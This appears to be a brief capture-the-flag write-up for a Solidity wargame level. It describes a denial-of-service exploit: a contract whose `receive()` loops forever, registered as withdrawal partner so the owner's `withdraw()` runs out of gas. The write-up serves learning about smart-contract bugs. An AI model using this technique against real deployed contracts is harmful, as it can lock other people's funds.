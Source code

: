 ### Goals

Deny the owner from withdrawing funds when they call `withdraw()`

### Exploit

The withdraw function sends funds to `partner` which can be set with `setWithdrawPartner(address _partner)`. The main issue here is not checking the output of low-level call to partner. So we can set as a partner contract that will use all gas and the transaction will revert.

### Code

Deploy contract in Remix

```code
contract BadPartner {
  receive() payable {
        while (true) {}
    }
}
```

In console:

```
await contract.setWithdrawPartner(BAD_PARTNER_ADDRESS)
```

Done!
